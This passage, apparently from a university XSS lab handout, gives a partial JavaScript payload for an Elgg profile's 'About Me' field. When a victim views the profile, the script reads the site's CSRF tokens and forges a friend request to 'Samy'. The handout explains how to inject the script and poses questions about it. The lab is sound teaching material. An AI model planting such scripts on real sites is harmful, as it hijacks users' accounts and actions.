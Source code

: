 \begin{lstlisting}
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          (*@ \ding{192} @*)
  var token="&__elgg_token="+elgg.security.token.__elgg_token; (*@ \ding{193} @*)

  //Construct the HTTP request to add Samy as a friend.
  var sendurl=...;  //FILL IN

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET",sendurl,true);
  Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  Ajax.send();
} 
</script>
\end{lstlisting}


The above code should be placed in the \texttt{"About Me"} field of Samy's profile page. 
This field provides two editing modes: Editor mode (default) and Text mode. 
The Editor mode adds extra HTML code to the text typed into the field, while
the Text mode does not. Since we do not
want any extra code added to our attacking code, the Text mode should be enabled before entering
the above JavaScript code. This can be done by clicking on 
\texttt{"Edit HTML"}, which can be found at the top right
of the \texttt{"About Me"} text field.


\paragraph{Questions.} Please answer the following questions:

\begin{itemize}
\item \textbf{Question 1:} Explain the purpose of Lines  and , why 
are they are needed?

\item \textbf{Question 2:} If the \texttt{Elgg} application only provide 
the Editor mode for the \texttt{"About Me"} field, i.e., you cannot 
switch to the Text mode, can you still launch a successful attack? 
\end{itemize}
 



\subsection{Task 5: Modifying the Victim's Profile}


